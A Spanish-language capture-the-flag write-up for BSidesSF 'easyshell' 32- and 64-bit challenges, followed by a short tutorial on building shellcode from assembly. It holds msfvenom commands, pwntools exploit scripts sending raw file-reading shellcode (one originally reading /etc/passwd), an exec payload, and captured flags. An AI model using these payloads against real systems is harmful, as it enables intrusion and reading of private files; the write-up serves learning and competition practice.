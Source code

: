 #### Enunciado

Te daban el código fuente de dos ELF, uno de 32 bits y otro de 64 bits, y un servicio corriendo en un servidor donde tenías que enviar un 
exploit remoto para leer el archivo /home/ctf/flag.txt

#### Solución

Ambos casos se solucionan de la misma manera, creando un shellcode para leer archivos. Sin embargo, para el caso de 32 bits tendremos la inestimable ayuda de metasploit y usaremos el payload de msfvenom de metasploit que te permite leer un archivo. En el caso de 64 bits te puedes programar en ensamblador un shellcode o bien puedes usar uno de los que hay en shell-storm: http://shell-storm.org/shellcode/files/shellcode-878.php


##### easyshell32

Creamos el payload con metasploit:

```
msfvenom -p linux/x86/read_file PATH=/home/ctf/flag.txt -n 16 -b '\x00\x20\x0d\x0a' -f python
```

Y así generamos nuestro cutre script que nos da el valor del flag:

```python
#!/usr/bin/env python
import sys
from pwn import *

buf =  ""
buf += "\x2f\x98\x4b\xfc\x41\x9b\x93\x27\x41\xf5\x91\x40\x98"
buf += "\x9b\xd6\x90\xdd\xc2\xb8\xca\x62\x2e\xa4\xd9\x74\x24"
buf += "\xf4\x5b\x33\xc9\xb1\x15\x83\xc3\x04\x31\x43\x13\x03"
buf += "\x89\x71\xcc\x51\xe6\x40\xa8\x9f\xf8\xac\xc8\xc4\xc9"
buf += "\x65\x05\x7a\xa0\xb5\x2e\x78\xb2\x39\x4f\xf6\x55\xb0"
buf += "\xb6\xb2\x99\xd3\x48\xc3\x54\x53\xc1\x01\xde\x50\xd2"
buf += "\x85\x1e\xe2\xd3\x85\x1e\x14\x19\x05\xa6\x15\xa1\x06"
buf += "\xd6\xae\xa1\x06\xd6\xd0\x6c\x86\x3e\x15\x91\x78\x41"
buf += "\xb9\x06\xe8\xd0\xa3\xf9\x95\x5e\x4a\x29\x3c\xf2\xf3"
buf += "\x52\xee\x7e\x8c\xe8\xee"


addr = "easyshell-f7113918.ctf.bsidessf.net"
conn = remote(addr, 5252)

conn.send(buf)
conn.interactive()
conn.close()
```

FLAG:c832b461f8772b49f45e6c3906645adb

##### easyshell64

En este caso echamos mano de shell-storm.org, ya que metasploit no tiene un payload para leer archvios en 64 bits. En concreto cogemos el payload http://shell-storm.org/shellcode/files/shellcode-878.php

```
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

Este payload está diseñado para leer /etc/passwd, lo que tendremos que hacer es quitar los carácteres en hexadecimal que corresponden a esa cadena (situados al final del payload) y sustituirlos por las de nuestro archivo a leer /home/ctf/flag.txt. Por lo tanto el cutre script queda de la siguiente manera:

```python
#!/usr/bin/env python
import sys
from pwn import *

buf = "\xeb\x3f\x5f\x80\x77\x12\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x68\x6f\x6d\x65\x2f\x63\x74\x66\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x41"

addr = "easyshell64-efb598a6.ctf.bsidessf.net"
conn = remote(addr, 5253)

conn.send(buf)
conn.interactive()
conn.close()
```

Si lo ejecutamos:

```
python otro.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Opening connection to easyshell64-efb598a6.ctf.bsidessf.net on port 5253: Done
[*] Switching to interactive mode
Send me stuff!! We're 64 bits!
FLAG:e8864c381822ec7cf97f5516745411f5
$  [*] Got EOF while reading in interactive
```

Luego descubrí que hay otra manera más sencilla usando el payload de 64 bits de metasploit que te permite ejecutar un comando:

```
msfvenom -p linux/x64/exec CMD="cat /home/ctf/flag.txt" -n 16 -b '\x00\x20\x0d\x0a' -f python
```

#### Teoría básica de shellcodes

#####¿Qué son estos shellcodes? 

El shellcode no es más que los opcodes de las instrucciones de lenguaje ensamblador. Hagamos un ejemplo con el clásico "Hola mundo" en ensamblador:

```
global _start

section .text

_start:
    jmp MESSAGE      ; 1) lets jump to MESSAGE

GOBACK:
    mov eax, 0x4
    mov ebx, 0x1
    pop ecx          ; 3) we are poping into `ecx`, now we have the
                     ; address of "Hello, World!\r\n" 
    mov edx, 0xF
    int 0x80

    mov eax, 0x1
    mov ebx, 0x0
    int 0x80

MESSAGE:
    call GOBACK       ; 2) we are going back, since we used `call`, that means
                      ; the return address, which is in this case the address 
                      ; of "Hello, World!\r\n", is pushed into the stack.
    db "Hello, World!", 0dh, 0ah

```

En este código se utiliza el clásico jmp-ret para dejar en la pila la dirección de memoria de la variable a la que queremos acceder. En este caso "Hello, World!". Está explicado este método en los comentarios. 


#####¿Cómo se genera?

Una vez que tenemos el código ensamblador, lo compilamos y creamos el ejecutable:

```
nasm -f elf hello.asm
ld -o hello hello.o

./hello 
Hello, World!
```
Ahora para sacar el conjuto de opcodes de las instrucciones de ensamblador bastaría con ejecutar los siguiente:

```
objdump -M intel -d hello

hello:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	eb 1e                	jmp    8048080 <MESSAGE>    ---> De aquí cogeríamos '\xeb\x1e'

08048062 <GOBACK>:
 8048062:	b8 04 00 00 00      	mov    eax,0x4              ---> De aquí cogeríamos '\xb8\x04\x00\x00\x00'
 8048067:	bb 01 00 00 00       	mov    ebx,0x1              ---> De aquí cogeríamos '\xbb\x01\x00\x00\x00'
 804806c:	59                   	pop    ecx                  ---> De aquí cogeríamos '\x59'
 804806d:	ba 0f 00 00 00       	mov    edx,0xf              ---> Y así sucesivamente...
 8048072:	cd 80                	int    0x80                 
 8048074:	b8 01 00 00 00       	mov    eax,0x1
 8048079:	bb 00 00 00 00       	mov    ebx,0x0
 804807e:	cd 80                	int    0x80

08048080 <MESSAGE>:
 8048080:	e8 dd ff ff ff       	call   8048062 <GOBACK>
 8048085:	48                   	dec    eax                      <--- A partir de aquí hasta el final, estás instrucciones no se ejecutan.
 8048086:	65 6c                	gs ins BYTE PTR es:[edi],dx     <--- En realidad estas instrucciones es como interpreta objdump los caracteres de la variable "Hello, World!"
 8048088:	6c                   	ins    BYTE PTR es:[edi],dx     <--- Son la traducción a ensamblador de las valores ascii de la cadena.
 8048089:	6f                   	outs   dx,DWORD PTR ds:[esi]
 804808a:	2c 20                	sub    al,0x20
 804808c:	57                   	push   edi
 804808d:	6f                   	outs   dx,DWORD PTR ds:[esi]
 804808e:	72 6c                	jb     80480fc <MESSAGE+0x7c>
 8048090:	64                   	fs
 8048091:	21                   	.byte 0x21
 8048092:	0d                   	.byte 0xd
 8048093:	0a                   	.byte 0xa
```

Si quisieramos probarlo a través de un programa de C, sólo tendríamos que ir colocando por orden nuestro shellcode como si fuera un buffer y probar si funciona:

```
const char code[] = 

    "\xe9\x1e\x00\x00\x00"  //          jmp    8048083 <MESSAGE>
    "\xb8\x04\x00\x00\x00"  //          mov    $0x4,%eax
    "\xbb\x01\x00\x00\x00"  //          mov    $0x1,%ebx
    "\x59"                  //          pop    %ecx
    "\xba\x0f\x00\x00\x00"  //          mov    $0xf,%edx
    "\xcd\x80"              //          int    $0x80
    "\xb8\x01\x00\x00\x00"  //          mov    $0x1,%eax
    "\xbb\x00\x00\x00\x00"  //          mov    $0x0,%ebx
    "\xcd\x80"              //          int    $0x80
    "\xe8\xdd\xff\xff\xff"  //          call   8048065 <GOBACK>
    "Hello wolrd!\r\n";     // OR       "\x48\x65\x6c\x6c\x6f\x2c\x20\x57"
                            //          "\x6f\x72\x6c\x64\x21\x0d\x0a"


int main(int argc, char **argv)
{
    (*(void(*)())code)();

    return 0;
}
```
```
gcc test.c -o test
./test
Hello wolrd!
```




















